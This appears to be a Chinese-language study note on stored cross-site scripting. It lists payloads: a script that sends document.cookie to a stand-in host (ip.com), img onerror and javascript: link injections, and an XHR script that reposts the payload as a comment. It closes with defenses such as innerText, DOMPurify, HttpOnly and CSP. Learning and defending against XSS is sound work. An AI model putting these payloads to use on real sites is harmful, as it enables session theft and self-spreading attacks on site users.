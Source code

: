 # 储存型 XSS

攻击者输入的数据会先储存在数据库里，在渲染网页的时候恶意数据里的js代码被执行。
相比于反射型 XSS，储存型 XSS 的生命周期更长，危害更大。

## 利用方式

* alert
弹窗

* 窃取 Cookie/localStorage
```html
<script>
  fetch("http://ip.com?cookie="+document.cookie)
</script>
```
`只能读取没有设置 httpOnly 的 Cookie`

* 借助图片
```html
<img src=x onerror=alert(1)>
```

* 借助伪协议
```html
<a href="javascript:alert(1)">click me</a>
```
（需要用户交互）

* 客户端请求伪造 （CSRF）
在无法读取 Cookie 时，可以使用 js 模拟用户发送请求，Cookie 会自己带上
```html
<script>
  const xhr = new XMLHttpRequest();
  xhr.open("POST", "/comment");
  xhr.setRequestHeader("Content-Type", "application/json");
  xhr.send(JSON.stringify({
    page: 3,
    content: "<img src=x onerror=alert(1)>"
  }));
</script>
```

## 参考资料

* [PortSwigger - XSS Cheat Sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

## 解决方案

1. 前端在渲染从后端拿到的数据的时候，如果涉及 dom 操作，使用 `innerText` 而不是 `innerHTML`
2. 后端在储存程序前，对用户数据进行转义防止 XSS 攻击（比如 DOMPurify）
3. 对 Cookie 添加 HTTP-Only 属性，阻止 JS 访问 Cookie
4. 配置内容安全策略（CSP）
